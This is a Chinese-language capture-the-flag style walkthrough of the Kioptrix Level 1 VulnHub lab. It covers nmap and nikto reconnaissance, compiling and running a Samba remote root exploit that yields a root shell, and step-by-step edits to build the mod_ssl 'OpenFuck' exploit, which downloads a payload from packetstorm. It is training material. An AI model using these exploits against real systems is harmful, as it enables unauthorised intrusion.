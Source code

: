 # Kioptrix-1

## 0x0 Preview

首先参考一下[这篇文章](https://github.com/Jewel591/OSCP-Pentest-Methodologies/blob/master/VulnHub/GetIP.md)获取靶机 IP 地址：

确认靶机 IP 地址为：`192.168.31.113`

## 0x1 信息收集

 首先使用 nmap 对目标进行信息收集：

```bash
sudo nmap -sV -sS -sC -p1-65535 --open -v 192.168.31.113
```

扫描结果如下：

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open  rpcbind     2 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd (workgroup: bMYGROUP)
443/tcp open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2020-08-02T10:43:54+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5

Host script results:
|_clock-skew: 1m49s
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_smb2-time: Protocol negotiation failed (SMB2)
```

使用 nikto 对 80 HTTP 服务进行扫描：

```bash
nikto -host 192.168.31.113
```

扫描结果：

```bash
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
**+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.**
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8728 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2020-08-02 07:49:58 (GMT-4) (129 seconds)                                           
---------------------------------------------------------------------------                               
+ 1 host(s) tested
```

收集到的信息：

-  根据 nikto 结果，靶机使用 mod_ssl version 2.8 可能存在 remote buffer overflow 
-  靶机使用 samba 服务

## 0x3 突破点一：Samba 服务

使用 msf 的`auxiliary/scanner/smb/smb_version` :

![image.png](https://i.loli.net/2020/08/07/UQc2DkCy8J7Y5ql.png)

可以看到目标服务器使用 `Samba 2.2.1a`

searchsploit 搜索发现该版本存在 RCE 漏洞： 

![image.png](https://i.loli.net/2020/08/07/dwgr6DfZkbuHMhy.png)

编译：

```
gcc 10.c -o sambal
```

编译完成后发起攻击：`./sambal -b 0 -v 10.11.31.113`

```
kali@kali:~$ ./sambal -b 0 -v 192.168.31.113
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

## 0x4 突破点二： Apache mode_ssl

不过在编译之前，我们需要先对`764.c` 做一些修改才能编译成功：

> *或者你可以直接在这里下载我修改后的：[https://github.com/Jewel591/OSCP-Pentest-Methodologies/blob/master/web-exploit-exp/Apache/764.c(CVE-2002-0082)](https://github.com/Jewel591/OSCP-Pentest-Methodologies/blob/master/web-exploit-exp/Apache/764.c(CVE-2002-0082))*

### 第一步：在开头添加模块：

```bash
#include <openssl/rc4.h>
#include <openssl/md5.h>
#define SSL2_MT_ERROR 0
#define SSL2_MT_CLIENT_FINISHED 3
#define SSL2_MT_SERVER_HELLO 4
#define SSL2_MT_SERVER_VERIFY 5
#define SSL2_MT_SERVER_FINISHED 6
#define SSL2_MAX_CONNECTION_ID_LENGTH 16
```
![image.png](https://i.loli.net/2020/08/07/UQc2DkCy8J7Y5ql.png)


### 第二步：替换 wget 后的 URL：

将如下行：

```bash
http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
```

修改为：

```bash
https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

![image.png](https://i.loli.net/2020/08/07/dwgr6DfZkbuHMhy.png)

### 第三步：修改如下行内容：

将如下行：

```bash
*unsigned char *p, *end;*
```

修改为：

```bash
*const unsigned char *p, *end;*
```

> 大概在 970 行左右，在 vim 中可以使用`970gg` 快速跳转到 920 行

![](https://i.loli.net/2020/08/07/oDGsRqrwuQFOY7z.png)

### 第四步：修改如下行内容：

```bash
将：
if (pkey->type != EVP_PKEY_RSA) {
修改为：
if (EVP_PKEY_get1_RSA(pkey) == NULL) {
——————
将：
encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], pkey->pkey.rsa, RSA_PKCS1_PADDING);
修改为：
encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);
```

修改完成后：

![image.png](https://i.loli.net/2020/08/07/oDGsRqrwuQFOY7z.png)

### 第五步：安装 “libssl-dev”

```bash
sudo apt-get install libssl-dev
```

### 第六步：编译

```bash
gcc 764.c -o 764 -lcrypto
```

![image.png](https://i.loli.net/2020/08/07/OsJjGPe6wL7hM2X.png)

自此，就编译完成了，使用如下命令发起攻击：

```bash
./764 0x6b 443 192.168.31.113 -c 40
```

> 看其他人都可以成功 getshell，不过我试了好多次都无法成功，也不知是不是 macOS Vmware Fusion 的原因。
